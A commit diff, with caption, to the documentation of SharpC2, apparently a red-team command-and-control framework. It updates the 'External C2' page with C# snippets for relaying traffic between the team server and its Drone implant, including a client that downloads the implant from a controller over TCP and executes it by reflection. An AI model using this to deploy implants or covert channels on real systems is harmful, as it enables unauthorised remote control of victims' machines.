

Before and after one commit to rasta-mouse/SharpC2-Docs, a Sphinx documentation site: the page built from docs/source/external-c2.rst, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours; pages that are not in the unit, such as notebooks, are missing from menus; some of the changed text lies outside the part shown.

Commit message:
Update external-c2.rst

```diff
--- a/docs/source/external-c2.rst
+++ b/docs/source/external-c2.rst
@@ -1,7 +1,7 @@
 External C2
 ===========
 
-External C2 allow a 3rd application to act as a communication layer between the SharpC2 team server and Drone payload.  This allows you to implement completely custom C2 protocols without having to modify the core framework.
+External C2 allow a 3rd application to act as a communication layer between the SharpC2 team server and Drone payload.  This allows users to implement completely custom C2 protocols without having to modify the core framework.
 
 .. graphviz::
 
@@ -26,109 +26,101 @@
 
 |
 
-ExternalC2.NET
+ExternalC2.Net
 --------------
 
-The SharpC2 solution contains a .NET library to simplify the process of implementing ExternalC2.  Example Controller and Client projects are also provided.
+The SharpC2 solution contains a .NET library to help simplify the process of implementing ExternalC2.  Example Controller and Client projects are also provided.
 
 
 3rd Party Controller
 --------------------
 
-The controller can leverage the ``ExternalC2.NET.Server`` namespace.  It must instantiate a new ``ServerController`` class with the IP address and port of the ExternalC2 handler, and then call ``Connect``.
+The controller can leverage the ``ExternalC2.Net.Server`` namespace.  It must instantiate a new ``ServerController`` class with the IP address and port of the ExternalC2 handler.  Multiple instances can be used to handle more than one incoming connection, which can be run in separate threads.
 
 
-.. code-block::
+.. code-block:: c#
 
-    if (args.Length != 2)
-        {
-            Console.WriteLine("demo-controller.exe <address> <port>");
-            return;
-        }
-
-        var target = IPAddress.Parse(args[0]);
-        var port = int.Parse(args[1]);
-
-        // connect to the team server
-        var controller = new ServerController(target, port);
-
-        if (!await controller.Connect())
-        {
-            Console.WriteLine($"Failed to connect to {target}:{port}.");
-            return;
-        }
+    var controller = new ServerController(target, port);
+    _ = Task.Run(async () => await HandleClient(controller, client));
 
 
-It then requests an SMB payload from the team server by providing a pipename.  This is returned in the form of a ``byte[]``.
+The ``ServerController`` provides an event that is fired when a downstream frame is received from the team server.  In most cases, you would just want to forward this straight to your client.  Run the ``Start`` method to instruct the ``ServerController`` to begin reading from the team server.
 
-.. code-block::
+.. code-block:: c#
 
-    // request payload
-    var payload = await controller.RequestPayload(pipename);
+    controller.OnDataFromTeamServer += async delegate(byte[] data)
+    {
+        // send data received from the team server to the client
+        await client.WriteData(data);
+    };
 
+    // run the controller
+    _ = controller.Start();
 
-The controller must then provide the payload to the 3rd party client.  The client will also need to know the pipename (this could be generated by the client and given to the controller over the custom C2 protocol).  It can then drop into a loop to continuously relay data from the 3rd party client to the team server.
+Upon connecting to the team server, it will instantly provide a Drone payload in the form of a .NET assembly.  Whenever you have upstream data to give to the team server, use the ``SendData`` method.
 
-.. code-block::
+.. code-block:: c#
 
-    while (your client is connected)
+    // read from the client
+    while (client.Connected)
     {
-        if (client has data)
+        if (client.DataAvailable())
         {
-            // read from client
-            var inbound = await YourReadMethod();
+            // this is upstream from the drone
+            var upstream = await client.ReadData();
 
-            // send it to team server
-            await controller.SendData(inbound);
-
-            // read data from team server
-            var outbound = await controller.ReadData();
-
-            // send it to the client
-            await YourSendMethod(outbound);
+            // give it to the team server
+            await controller.SendData(upstream);
         }
 
         await Task.Delay(100);
     }
 
-
 3rd Party Client
 ----------------
 
-The client can leverage the ``ExternalC2.NET.Client`` namespace.  It should initiate communication with your 3rd controller and either send or receive a pipename.  A ``ClientController`` class should be instantiated using that pipename.
+The client can leverage the ``ExternalC2.Net.Client`` namespace.  It should initiate communication with your 3rd controller and immediately begin reading from it to receive the Drone payload.
 
-.. code-block::
+.. code-block:: c#
 
-    var controller = new ClientController(pipename);
+    // connect to controller
+    var controller = new TcpClient();
+    await controller.ConnectAsync(target, port);
+
+    // read payload
+    var payload = await controller.ReadData();
 
 
-Once the payload has been received from the 3rd party controller, call the ``ExecutePayload`` method.  This will execute the Drone payload and attempt to connect to its SMB named pipe.
+Once the payload has been read, instantiate a new instance of ``DroneController``.  This also provides an event that is fired when an upstream frame is sent from the Drone.  This should just be sent up to your controller.
 
-.. code-block::
+.. code-block:: c#
 
-    if (!await controller.ExecutePayload(payload))
+    // create drone controller
+    var drone = new DroneController();
+
+    // event is fired whenever the drone sends upstream data
+    drone.OnDataFromDrone += async delegate(byte[] bytes)
     {
-        Console.WriteLine("Failed to connect to pipe");
-        return;
-    }
+        // send to controller
+        await controller.WriteData(bytes);
+    };
 
-It can then drop into a loop to continuously relay data from the drone to the 3rd party controller.
+The Drone payload can then be executed by calling the ``ExecutePayload`` method.  This will load the Drone and attempt to connect to inbound and outbound queues.  This is done entirely using reflection (no named pipes or TCP connections, etc).
 
-.. code-block::
+The client can then listen for downstream data from the controller and pass it to the Drone using the ``SendDrone`` method.
 
-    while (you're connected to the controller)
+.. code-block:: c#
+
+    while (controller.Connected)
     {
-        // read from drone
-        var outbound = await controller.ReadDrone();
+        if (controller.DataAvailable())
+        {
+            // read from controller
+            var downstream = await controller.ReadData();
 
-        // send to controller
-        await YourSendMethod(outbound);
-
-        // read from controller
-        var inbound = await YourReadMethod();
-
-        // send to drone
-        await controller.SendDrone(inbound);
+            // send it to the drone
+            drone.SendDrone(downstream);
+        }
 
         await Task.Delay(100);
     }
```
